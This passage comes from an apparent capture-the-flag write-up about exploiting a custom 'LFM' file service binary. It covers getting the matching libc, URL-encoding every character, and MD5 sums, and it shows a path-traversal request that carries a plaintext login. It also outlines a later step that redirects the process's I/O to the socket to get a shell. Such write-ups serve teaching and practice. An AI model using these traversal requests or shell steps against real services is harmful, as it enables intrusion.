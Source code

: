 ## Exploiting the binary
Now that we have gathered enough information about the binary, let us prepare to exploit the binary.
### Exploit preperation
In order to exploit the binary we have to preperate a few things. We will need to have a copy of the used libc version. Furthermore, we will need a way to url-encode all characters in python and get a MD5-sum of a file from the server. After we have prepared all of that, we need to find a way to leak an address from libc to calculate the libc-base and then finally redirect stdin, stdout and stderr to the socket, which needs to be brute forced.

#### Getting libc
Using [libc-database](https://github.com/niklasb/libc-database) we can download the libc version used on the server.

```bash
root@silence:~# libc-database/download libc6_2.28-0ubuntu1_amd64
Getting libc6_2.28-0ubuntu1_amd64
  -> Location: http://old-releases.ubuntu.com/ubuntu/pool/main/g/glibc//libc6_2.28-0ubuntu1_amd64.deb
  -> Downloading package
  -> Extracting package
  -> Package saved to libs/libc6_2.28-0ubuntu1_amd64

root@silence:~# cp libc-database/libs/libc6_2.28-0ubuntu1_amd64/libc.so.6 .
```

#### URL-encoding all characters
In order to send the payload successfully, we have to url-encode **all characters**. Default python url-encoding does only encode certain key-characters. Luckily after a bit of searching, I found a [script on GitHub](https://gist.github.com/Paradoxis/6336c2eaea20a591dd36bb1f5e227da2#file-url_encode-py) that encodes all characters.

#### MD5-sum of file
Another prerequisite for our exploit, is that we know the MD5-sum of the file we are accessing. There are multiple possible files we can choose from. Initially I decided to use `/dev/null`, as it will definitly has the same MD5-sum on my machine as on the target. However, because of problems that occured in later exploit-development I changed to use `/proc/sys/kernel/randomize_va_space`.

```bash
root@silence:~# md5sum /dev/null
d41d8cd98f00b204e9800998ecf8427e  /dev/null

root@silence:~# md5sum /proc/sys/kernel/randomize_va_space
26ab0db90d72e28ad0ba1e22ee510510  /proc/sys/kernel/randomize_va_space
```

```python
Request:
CHECK %2f%2e%2e%2f%2e%2e%2f%2e%2e/dev/null LFM
User=lfm_user
Password=!gby0l0r0ck$$!

d41d8cd98f00b204e9800998ecf8427e
```
```python
Response:
LFM 200 OK
Size: 32
```
